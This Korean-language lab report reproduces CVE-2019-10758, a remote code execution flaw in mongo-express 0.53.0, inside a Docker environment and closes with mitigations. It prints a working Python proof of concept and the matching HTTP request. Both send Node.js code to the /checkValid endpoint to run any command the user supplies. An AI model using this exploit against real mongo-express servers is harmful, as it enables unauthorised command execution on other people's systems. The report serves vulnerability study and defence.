






# CVE-2019-10758 mongo-express RCE 실습 보고서

## 1) 취약점 요약

이번 실습에서는 `mongo-express`에서 발생한 원격 코드 실행 취약점인 CVE-2019-10758을 분석했다.

`mongo-express`는 MongoDB를 웹 화면에서 관리할 수 있게 해주는 Node.js 기반 관리 도구다. 취약한 버전에서는 `/checkValid` 요청으로 전달되는 `document` 값이 안전하게 처리되지 않아, 서버 측 Node.js 코드 실행으로 이어질 수 있다.

실습 환경은 `mongo-express 0.53.0`으로 구성했다. 이후 PoC 요청을 보내 컨테이너 내부에 `/tmp/success` 파일이 생성되는지 확인하는 방식으로 취약점 재현 여부를 검증했다.

## 2) 환경 구성

| 항목 | 내용 |
|---|---|
| CVE | CVE-2019-10758 |
| 대상 | mongo-express |
| 취약 버전 | 0.54.0 미만 |
| 실습 버전 | 0.53.0 |
| 포트 | 8081 |
| 인증 정보 | admin / pass |
| 영향 | 원격 코드 실행 |

이번 실습에서 추가한 파일 구성은 다음과 같다.

```text
CVE-2019-10758_2/
├── .dockerignore
├── docker-compose.yml
├── Dockerfile
├── poc.py
├── README.md
├── COMMANDS.md
└── img/
    ├── build.png
    ├── version.png
    ├── login.png
    ├── main.png
    ├── before.png
    └── poc-success.png
```

외부에서 관리되는 취약 이미지 하나에만 의존하지 않도록, `Dockerfile`에서 `mongo-express@0.53.0`을 직접 설치하도록 구성했다.

## 3) 취약 조건

이 취약점은 별도의 조건 없이 항상 발생하는 형태는 아니다. 본 실습 환경 기준으로는 아래 조건이 필요하다.

1. mongo-express 버전이 0.54.0보다 낮아야 한다.
2. 공격자가 mongo-express 웹 페이지에 접근할 수 있어야 한다.
3. Basic Auth 인증을 통과해야 한다.
4. 기본 계정인 `admin:pass`가 그대로 남아 있거나 인증 정보가 노출되어 있어야 한다.
5. `/checkValid` 엔드포인트가 조작된 `document` 값을 처리해야 한다.

이번 실습에서는 재현 과정을 명확하게 확인하기 위해 기본 계정 `admin:pass`를 사용했다.

## 4) 환경 실행

레포지토리 최상단에서 실습 폴더로 이동한다.

```bash
cd MongoExpress/CVE-2019-10758_2
```

이전에 실행한 컨테이너가 남아 있으면 결과가 섞일 수 있으므로 먼저 정리한다.

```bash
docker compose down -v
```

Docker Compose로 환경을 올린다.

```bash
docker compose up -d --build
```

컨테이너 상태를 확인한다.

```bash
docker compose ps
```

취약 버전으로 실행되었는지 확인하기 위해 mongo-express 버전도 확인한다.

```bash
docker compose exec -T web mongo-express --version
```

빌드 및 실행 결과:



컨테이너 상태와 mongo-express 버전 확인 결과:



브라우저에서는 아래 주소로 접속한다.

```text
http://localhost:8081
```

로그인 정보는 다음과 같다.

```text
admin / pass
```

접속 시 Basic Auth 로그인 창이 뜨는 것을 확인했다.



로그인 후 mongo-express 메인 화면에 접속했다.



## 5) 재현 절차

먼저 PoC 실행 전 상태를 확인하기 위해 `/tmp` 디렉터리를 조회했다.

```bash
docker compose exec -T web ls -al /tmp
```

이 단계에서는 아직 `success` 파일이 존재하지 않는다.



이후 PoC를 실행했다.

```bash
python poc.py http://localhost:8081
```

PoC의 기본 명령은 아래와 같다.

```bash
touch /tmp/success
```

PoC 실행 결과와 `/tmp/success` 생성 확인:

```bash
docker compose exec -T web ls -al /tmp
```



실행 후에는 `/tmp/success` 파일이 생성된 것을 확인할 수 있다.

실습 결과 아래처럼 파일이 생성됐다.

```text
-rw-r--r-- 1 root root 0 Jul 12 06:08 success
```

실습 종료 후에는 아래 명령으로 컨테이너를 정리한다.

```bash
docker compose down -v
```

## 6) PoC 코드

```python
import base64
import json
import sys
from urllib import parse, request


if len(sys.argv) < 2:
    print("usage: python poc.py http://localhost:8081 [cmd]")
    raise SystemExit(1)

# 대상 URL과 실행할 명령을 받는다. 명령을 안 주면 파일 생성으로 확인한다.
url = sys.argv[1].rstrip("/")
cmd = sys.argv[2] if len(sys.argv) > 2 else "touch /tmp/success"

target = url + "/checkValid"

# /checkValid의 document 값으로 들어갈 Node.js 코드
js = (
    'this.constructor.constructor("return process")()'
    '.mainModule.require("child_process")'
    f'.execSync({json.dumps(cmd)})'
)

data = parse.urlencode({"document": js}).encode()

# 기본 계정 admin:pass
basic = base64.b64encode(b"admin:pass").decode()

headers = {
    "Authorization": f"Basic {basic}",
    "Content-Type": "application/x-www-form-urlencoded",
}

print("[*] target :", target)
print("[*] cmd    :", cmd)

r = request.Request(
    target,
    data=data,
    method="POST",
    headers=headers,
)

# 요청이 성공하면 Valid가 출력되고, 명령 실행 결과는 컨테이너 안에서 확인한다.
try:
    with request.urlopen(r, timeout=10) as res:
        print("[*] status :", res.status)
        print(res.read().decode("utf-8", "replace")[:500])
except Exception as e:
    print("[-] failed:", e)
    raise SystemExit(1)
```

### 코드 설명

PoC는 Python 기본 라이브러리만 사용했다. 그래서 별도의 패키지를 설치하지 않아도 바로 실행할 수 있다.

1. `base64`는 mongo-express 기본 계정인 `admin:pass`를 Basic Auth 헤더로 만들기 위해 사용했다.
2. `sys.argv`로 대상 URL을 받고, 명령 인자가 없으면 기본값으로 `touch /tmp/success`를 실행하게 했다.
3. 공격 요청은 mongo-express의 `/checkValid` 엔드포인트로 전송했다.
4. `document` 파라미터에는 JavaScript 코드가 들어간다. 이 값에서 `constructor.constructor("return process")()`를 이용해 Node.js의 `process` 객체에 접근한다.
5. 이후 `mainModule.require("child_process").execSync()`를 호출해 컨테이너 내부에서 OS 명령을 실행한다.
6. `json.dumps(cmd)`는 명령 문자열 안에 따옴표나 공백이 있어도 JavaScript 문자열 형태가 깨지지 않도록 넣었다.
7. 요청이 정상 처리되면 응답으로 `Valid`가 출력된다. 실제 명령 실행 여부는 `/tmp/success` 파일 생성 여부로 확인했다.

기본값은 `/tmp/success` 파일을 만드는 명령이고, 다른 명령도 인자로 줄 수 있다.

```bash
python poc.py http://localhost:8081 "id"
```

## 7) 요청 패킷

PoC 요청을 HTTP 형태로 정리하면 아래와 같다.

```http
POST /checkValid HTTP/1.1
Host: localhost:8081
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

`YWRtaW46cGFzcw==`는 `admin:pass`를 Base64로 인코딩한 값이다.

## 8) 실행 결과 및 분석

PoC 실행 전에는 `/tmp` 디렉터리 안에 `success` 파일이 없었다. 하지만 `/checkValid`로 조작된 `document` 값을 보낸 뒤에는 같은 컨테이너 안에 `/tmp/success` 파일이 생성됐다.

이 결과는 웹 요청을 통해 서버 내부에서 OS 명령이 실행됐다는 의미다. 따라서 CVE-2019-10758은 단순 정보 노출이 아니라 원격 코드 실행으로 이어질 수 있는 취약점으로 볼 수 있다.

## 9) 대응 방안

1. mongo-express를 0.54.0 이상 버전으로 업데이트한다.
2. 기본 계정 `admin:pass`를 사용하지 않고, 강한 인증 정보를 설정한다.
3. mongo-express 같은 관리자 도구를 외부 인터넷에 직접 노출하지 않는다.
4. 관리자 페이지는 VPN 또는 내부망에서만 접근하도록 제한한다.
5. 방화벽이나 reverse proxy에서 접근 가능한 IP를 제한한다.
6. `constructor`, `child_process`, `execSync` 같은 문자열이 포함된 비정상 요청을 모니터링한다.

## 10) 참고 자료

- NVD CVE-2019-10758: https://nvd.nist.gov/vuln/detail/CVE-2019-10758
- Snyk Advisory: https://snyk.io/vuln/SNYK-JS-MONGOEXPRESS-473215
- mongo-express GitHub: https://github.com/mongo-express/mongo-express
- kr-vulhub MongoExpress CVE-2019-10758: https://github.com/gunh0/kr-vulhub/tree/main/MongoExpress/CVE-2019-10758
